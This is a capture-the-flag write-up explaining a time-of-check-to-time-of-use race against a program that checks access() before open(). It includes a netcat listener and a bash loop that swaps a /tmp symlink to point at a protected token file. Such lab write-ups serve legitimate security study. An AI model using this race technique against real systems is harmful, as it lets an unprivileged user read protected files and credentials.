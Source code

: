 As we see here it checks if we have access to read the file and tries to send it to a server and displays its content but we don’t have the rights or token to do it

If we go to the second page of the `access` manual we see something useful

```jsx
man 2 access
[...]
NOTES
       Warning:  Using  access()  to check if a user is autho‐
       rized to, for example,  open  a  file  before  actually
       doing so using open(2) creates a security hole, because
       the user might exploit the short time interval  between
       checking  and  opening  the file to manipulate it.  For
       this reason, the use of  this  system  call  should  be
       avoided.   (In  the  example  just  described,  a safer
       alternative  would  be  to   temporarily   switch   the
       process's  effective  user  ID  to the real ID and then
       call open(2).)
[...]
```

As described there we will exploit the time between access check and open execution to exploit it ([race condition exploit](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use#:~:text=In%20software%20development%2C%20time%2Dof,the%20results%20of%20that%20check.)).

A race condition exploit is basically to change the file pointing of a symbolic link between a file we have permission and one we don’t so access will be true and then the program will use the unauthorized file

In order to do this we will use 3 different windows of the machine:

The first one will be listening on port 6969 with `netcat` (we saw it with `strings`)

```jsx
nc -lk 6969
```

- -l for listening mode on specific port
- -k for keeping the listening mode open after each connection

In the second window we will create a script that will create a file, delete it and then create a symbolic link to exploit the time between these processes:

```bash
vim symblink.sh
#!/bin/bash

while true; do
	touch /tmp/link
	rm -f /tmp/link
	ln -s /home/user/level10/token /tmp/link
	rm -f /tmp/link
done
```

First we create a file in `/tmp` so `access` will check it, then we delete it before we create a symbolic link so `open` opens the `token` file. Then remove the symbolic link before creating it again in the infinite loop
